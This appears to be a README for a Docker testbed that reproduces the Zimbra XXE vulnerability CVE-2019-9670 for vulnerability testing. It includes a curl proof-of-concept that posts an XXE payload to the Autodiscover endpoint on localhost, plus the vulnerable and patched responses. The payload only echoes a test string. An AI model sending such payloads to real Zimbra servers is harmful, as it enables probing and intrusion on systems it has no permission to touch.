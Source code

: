 # Synacor Zimbra XXE (CVE-2019-9670)

This file describes how to setup a zimbra environment that is vulnerable (and not vulnerable) to CVE-2019-9670.

The vulnerability is an XXE affecting Synacor Zimbra Collaboration Suite.

## Testbed Setup
To setup the testbed, simply execute

```
./bootstrap.sh
```

The script will take care of building the docker images, deploying the docker containers and installing the zimbra applications.

- The vulnerable testbed is based on `8.7.1` version of zimbra, and
  specifically the following releases was used
  
  ```
  zcs-8.7.1_GA_1670.UBUNTU14_64.20161025045105.tgz
  ```
  
  The vulnerable testbed listens on port `8443`.
  
- The non vulnerable testbed is based on `8.8.15` version of zimbra, and
  specifically the following releases was used
  
  ```
  zcs-8.8.15_GA_3869.UBUNTU14_64.20190918004220.tgz
  ```
  
  The non vulnerable testbed listens on port `8500`.

## Reproduction Steps

To test out the vulnerability, the following curl command can be used:

```
ZIMBRA_HOST="127.0.0.1"
ZIMBRA_PORT="8443"
curl -k -X POST --data '<!DOCTYPE foo [<!ENTITY xxe "Test"> ]><Request><EMailAddress>email</EMailAddress><AcceptableResponseSchema>&xxe;</AcceptableResponseSchema></Request>' "https://${ZIMBRA_HOST}:${ZIMBRA_PORT}/Autodiscover/Autodiscover.xml"
```

which will generate a POST request similar to the one reported below:

```
POST /Autodiscover/Autodiscover.xml HTTP/1.1
Host: 127.0.0.1:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 149
Content-Type: application/x-www-form-urlencoded

<!DOCTYPE foo [<!ENTITY xxe "Test"> ]><Request><EMailAddress>email</EMailAddress><AcceptableResponseSchema>&xxe;</AcceptableResponseSchema></Request>
```

### Vulnerable Response

When sent to the vulnerable instance on port `8443`, the response will contain the string `Test`, as shown in the example below:

```
HTTP/1.1 503 Requested response schema not available Test
Date: Thu, 19 Dec 2024 09:14:18 GMT
Content-Type: text/html;charset=iso-8859-1
Cache-Control: must-revalidate,no-cache,no-store
Content-Length: 339

<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>Error 503 Requested response schema not available Test</title>
</head>
<body><h2>HTTP ERROR 503</h2>
<p>Problem accessing /service/autodiscover/Autodiscover.xml. Reason:
<pre>    Requested response schema not available Test</pre></p>
</body>
</html>
```

### Non Vulnerable Response

When sent to the non vulnerable instance on port `8500`, the response will not contain the string `Test`, as shown in the example below:

```
HTTP/1.1 400 Body cannot be parsed
Date: Thu, 19 Dec 2024 09:07:02 GMT
Cache-Control: must-revalidate,no-cache,no-store
Content-Type: text/html;charset=iso-8859-1
Content-Length: 293

<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>Error 400 Body cannot be parsed</title>
</head>
<body><h2>HTTP ERROR 400</h2>
<p>Problem accessing /service/autodiscover/Autodiscover.xml. Reason:
<pre>    Body cannot be parsed</pre></p>
</body>
</html>
```

## References
* https://nvd.nist.gov/vuln/detail/cve-2019-9670
* https://blog.tint0.com/2019/03/a-saga-of-code-executions-on-zimbra.html
* https://blog.zimbra.com/2019/03/new-zimbra-8-7-11-patch-10/
* https://attackerkb.com/topics/7bMNsBStux/zimbra-collaboration-suite-autodiscover-xxe/vuln-details
